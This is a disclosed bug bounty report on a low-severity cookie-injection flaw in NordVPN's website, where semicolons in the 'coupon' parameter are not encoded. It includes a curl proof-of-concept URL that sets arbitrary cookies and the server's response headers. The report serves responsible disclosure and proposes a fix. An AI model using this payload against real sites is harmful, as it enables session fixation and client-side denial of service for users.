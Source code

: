 # Arbitrary Set-Cookie via "?coupon=" due to semi-colon not encoded

## Report Details
- **Report ID**: 806577
- **URL**: https://hackerone.com/reports/806577
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-02-27T22:08:48.994Z
- **Disclosed**: 2020-04-03T09:42:39.066Z

## Reporter
- **Username**: yuyudhn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nordsecurity

## Vulnerability Information
Related to <https://tools.ietf.org/html/rfc2965>, the separator in the cookie header is semi-colon (;) and this issue is caused by semicolon (;) not encoded, so the attacker can arbitrarily manipulate cookies.

Arbitrary set cookie will cause several problems like:
- Session Fixation
- Cookie Bomb (Client-Side DoS)
- Etc

**Vulnerable Endpoint:** <https://nordvpn.com/?coupon=HERE;+Cookie1=XXXXX;+Cookie2=WWWWWWW;+Cookie3=EOF>

# Proof of Concept

```
bash:~$ curl -I "https://nordvpn.com/?coupon=HERE;+Cookie1=XXXXX;+Cookie2=WWWWWWW;+Cookie3=EOF"
```

```
HTTP/2 200 
date: Thu, 27 Feb 2020 21:32:41 GMT
content-type: text/html; charset=UTF-8
set-cookie: __cfduid=de45d1c8c4f2d3aa1406cfcde0face9471582839161; expires=Sat, 28-Mar-20 21:32:41 GMT; path=/; domain=.nordvpn.com; HttpOnly; SameSite=Lax; Secure
cf-ray: 56bd45d50e7acc28-SIN
cache-control: public, max-age=1800
expires: Thu, 27 Feb 2020 22:02:41 GMT
link: <https://nordvpn.com/>; rel=shortlink
set-cookie: locale=en; expires=Fri, 26 Feb 2021 21:32:41 GMT; path=/; domain=nordvpn.com; HttpOnly
strict-transport-security: max-age=31536000; includeSubDomains; preload
vary: Accept-Encoding
cf-cache-status: MISS
expect-ct: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
pragma: no-cache
set-cookie: coupon=HERE; Cookie1=XXXXX; Cookie2=WWWWWWW; Cookie3=EOF; expires=Thu, 05 Mar 2020 21:32:41 GMT; path=/; domain=nordvpn.com
x-cache: MISS
x-frame-options: SAMEORIGIN
x-generator: front-kr-web-2
server: cloudflare
```

See at **set-cookie:** response.

**Reference:**
- https://hackerone.com/reports/195045 (Arbitrary Set Cookie Via SVG)

# Fix
Encode semicolon ";" in headers.

**RFC 2965 Note:** For backward compatibility, the separator in the Cookie header is semi-colon (;) everywhere.  A server SHOULD **also accept comma (,) as the separator** between cookie-values for future compatibility.

Maybe you should encode comma too.

## Impact

Attacker can arbitrarily manipulate cookies.



### Other Impact (possible/false positive):
- Session Fixation (Remote Attack)
- Cookie Bomb (Client-side DoS)
- CSRF Protection Bypass (example: <https://hackerone.com/reports/14883>)

Thank you.

## Attachments
No attachments
